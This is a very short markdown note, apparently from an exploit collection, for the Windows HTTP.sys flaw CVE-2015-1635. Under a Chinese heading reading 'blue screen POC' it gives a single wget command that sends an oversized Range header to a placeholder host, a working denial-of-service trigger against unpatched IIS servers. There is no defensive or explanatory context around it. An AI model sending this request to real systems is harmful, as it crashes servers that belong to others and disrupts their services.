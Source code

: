 # Microsoft Windows HTTP.sys(CVE-2015-1635)

蓝屏POC：
* `wget http://www.host.com --header="Range: bytes=0-18446744073709551615"`
